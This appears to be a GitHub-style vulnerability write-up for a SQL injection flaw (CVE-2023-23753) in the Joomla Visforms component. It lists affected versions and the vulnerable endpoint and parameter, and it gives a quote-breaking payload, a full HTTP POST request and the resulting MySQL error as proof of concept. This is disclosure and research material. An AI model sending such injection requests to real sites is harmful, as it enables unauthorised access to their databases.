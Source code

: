 # SQL Injection Vulnerability - Joomla Visforms Component (CVE-2023-23753)

## Vulnerability Summary
- **Component**: Joomla Visforms
- **Vulnerability Type**: SQL Injection
- **Parameter**: `addSupportedFieldType[]`
- **Date of discovery**: 23.03.2025
- **Severity**: Critical - 9.8

## Affected Installs
- com_visforms versions 3.8.0 - 3.14.10.
- Visforms Base Package 3.0.0 - 3.0.4 (Since version 3.14.6 com_visforms is part of the Visforms Base Package)

## Target Information
- **Endpoint**: `/index.php?task=visforms.send&id=1`
- **Application**: Joomla CMS with Visforms extension

## Vulnerability Details

### Affected Parameter
The vulnerability exists in the `addSupportedFieldType[]` parameter, which appears to be improperly sanitized before being used in a SQL query.

### Payload Used
```
addSupportedFieldType[]=pagebreak'
```

### Request Details
```http
POST /index.php?task=visforms.send&id=1 HTTP/1.1
Host: 127.0.0.1:8081
Content-Type: application/x-www-form-urlencoded
Content-Length: 178

form1name=test&form1vorname=test&postid=1&addSupportedFieldType%5B%5D=pagebreak'&return=aHR0cDovLzEyNy4wLjAuMTo4MDgxLw%2C%2C&86943d7016f8b77ef63479de53175204=1&form1senden=Senden
```

### SQL Error Response
The application returned a MySQL syntax error, confirming the SQL injection vulnerability:

```
Error: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''pagebreak''')
ORDER BY `ordering` asc' at line 3
```

## Technical Analysis

### Error Breakdown
- **Error Code**: 1064 (MySQL syntax error)
- **Injection Point**: The single quote `'` in the payload causes the SQL query to break
- **Query Fragment**: The error reveals part of the SQL structure with `ORDER BY \`ordering\` asc`
- **Response**: HTTP 500 Internal Server Error with detailed MySQL error message

## Proof of Concept Steps
1. Navigate to the Joomla site with Visforms component
2. Submit a form with the malicious payload in the `addSupportedFieldType[]` parameter
3. Observe the SQL error response confirming the injection

## URLs
- https://nvd.nist.gov/vuln/detail/CVE-2023-23753
- https://vi-solutions.de/en/announcements/867-security-announcement-cve-2023-23754
